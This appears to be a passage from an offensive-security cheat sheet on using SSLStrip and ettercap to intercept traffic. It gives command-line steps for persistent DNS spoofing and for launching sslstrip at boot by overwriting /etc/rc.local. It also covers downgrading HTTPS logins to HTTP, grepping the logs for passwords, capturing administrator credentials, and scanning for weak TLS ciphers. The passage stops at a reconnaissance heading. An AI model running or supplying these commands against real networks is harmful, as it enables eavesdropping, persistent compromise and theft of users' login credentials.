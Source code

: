 #### DNS Poisoning for Persistent MITM

SSLStrip can be combined with persistent DNS poisoning to maintain long-term access to encrypted traffic:

1. **Persistent DNS Spoofing**: This keeps DNS poisoning active, making sure the victim continuously gets redirected through the attacker’s machine.
    ```bash
    ettercap -T -q -i <network_interface> -P dns_spoof
    ```
2. **Automating SSLStrip**: Sets SSLStrip to run automatically on system boot, ensuring persistent downgrading and traffic interception.
    ```bash
    echo "sslstrip -l 8080 -w sslstrip.log" > /etc/rc.local
    ```

## Credential Harvesting

#### Harvesting Login Information from HTTPS Sites

SSLStrip can be used to collect credentials by downgrading secure login pages to HTTP.

1. **Intercepting Login Forms**: This command logs all requests, including credentials submitted via login forms that were downgraded from HTTPS to HTTP.
    ```bash
    sslstrip -l 8080 -a -w logins.log
    ```
2. **Extracting Credentials from Logs**: Parses the logs to extract credentials submitted through POST requests that include passwords.
    ```bash
    grep "POST" logins.log | grep "password"
    ```

## Privilege Escalation

#### Capturing Administrator Login Credentials

Once inside the network, SSLStrip can be used to target administrator or privileged accounts.

1. **Targeting Privileged Users**: Use SSLStrip to capture login credentials for administrative panels that rely on HTTPS.
    ```bash
    sslstrip -l 8080 -w admin_creds.log
    ```
2. **Exploiting Weak HTTPS Configurations**: Use `nmap` to enumerate weak SSL/TLS configurations. After identifying weak encryption, SSLStrip can help downgrade the secure connection for credential harvesting.
    ```bash
    nmap --script ssl-enum-ciphers -p 443 <target_ip>
    ```

## Internal Reconnaissance
